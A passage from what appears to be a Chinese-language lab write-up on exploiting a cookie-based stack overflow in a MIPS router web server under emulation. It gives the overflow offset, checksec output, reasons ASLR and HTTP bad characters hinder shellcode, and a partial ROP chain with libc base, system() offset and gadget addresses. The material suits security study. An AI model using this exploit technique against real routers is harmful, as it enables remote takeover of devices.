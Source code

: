还需要注意的是：

```c
    F_ptr = fopen("/var/tmp/temp.xml","w");
    if (F_ptr == (FILE *)0x0) {
      ptr = "unable to open temp file.";
      goto LAB_00409a64;
    }
```

该函数返回值受服务器上/var/tmp/temp.xml影响，我们在本地建立或移除文件观察返回值，然后对比真实情况下的返回值来判断服务器上到底有没有这个文件(以上操作在仿真系统中进行，该文件是存在的)

最终在以'uid=1234&password='形式的cookie发现溢出点(相对于$s0)为959。

### 漏洞利用

ASLR问题

```bash
$ checksec
    Arch:     mips-32-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

> 仿真环境开启ASLR，通过http包传送的数据几乎都是可见字符，程序本身的rop链由于存在`\x00`字符会被截断所以是无法利用的，可利用的rop链只有在libc这样的共享库才有，因为每个地址都是4字节满的，所以这里只能关闭ASLR，在书中(路由器0day挖掘)前文刚说libc是动态加载的后面就直接告诉读者libc基地址为`0x2aaf8000`.我都傻了

用shellcode解决ASLR感觉很难：

+ stack地址变化
+ http对很多不可见字符敏感无法发送，这对shellcode编写造成了很大困难(用msf自动生成的试过了，没一个行)
  + 0x20（空格）、0x00（结束符）、0x3a（冒号）、0x3f（问号）、0x3b（分号）、0x0a(n换行符)等
  + 应该只能用rop链

**因此这里假定真实情况就是ASLR关闭**

```python
libc_addr = 0x2aaf8000
system_off = 0x53200

gadget_1 = 0x000328BC  	#move $a0, $s3, jmm $s1
gadget_2 = 0x000158C8  	#add $s0, 1 , jmp $s5
gadget_3 = 0x000159CC	#move $s5, $sp-0x10  move $t9, $s0  move $a0, $s5 jmp $t9
'''
.text:00409A28                 lw      $ra, 0x4E8+var_4($sp)
.text:00409A2C                 move    $v0, $s7
.text:00409A30                 lw      $fp, 0x4E8+var_8($sp)
.text:00409A34                 lw      $s7, 0x4E8+var_C($sp)
.text:00409A38                 lw      $s6, 0x4E8+var_10($sp)
.text:00409A3C                 lw      $s5, 0x4E8+var_14($sp)
.text:00409A40                 lw      $s4, 0x4E8+var_18($sp)
.text:00409A44                 lw      $s3, 0x4E8+var_1C($sp)
.text:00409A48                 lw      $s2, 0x4E8+var_20($sp)
.text:00409A4C                 lw      $s1, 0x4E8+var_24($sp)
.text:00409A50                 lw      $s0, 0x4E8+var_28($sp)
.text:00409A54                 jr      $ra
'''
```
